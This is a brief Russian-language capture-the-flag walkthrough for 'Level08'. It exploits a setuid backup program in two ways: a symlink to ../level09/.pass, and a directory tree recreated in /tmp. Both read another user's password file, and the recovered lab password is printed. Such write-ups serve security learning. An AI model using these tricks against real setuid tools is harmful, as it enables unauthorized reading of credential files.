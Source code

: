 ## Level08

Данная программа считывае файл, переданный в качестве аргумента командной строки, и копирует его в `./backup/<filename>`. Cкопированный файл создается с разрешениями `660` для пользователя `level09` и группы `users`. Так как все пользователи принадлежат к группе `users`, мы сможем прочитать любой скопированный файл.

### Подход 1

Создадим символическую ссылку:

```bash
> chmod 770 .
> ln -s ../level09/.pass pass
> chmod 777 pass
> ./level08 pass
> cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
> rm pass && chmod 550 . #чистим
```

### Подход 2

Повторим иерархию директорий в `/tmp`:

```bash
> cd /tmp
> mkdir -p backups/home/users/level09
> ~/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```



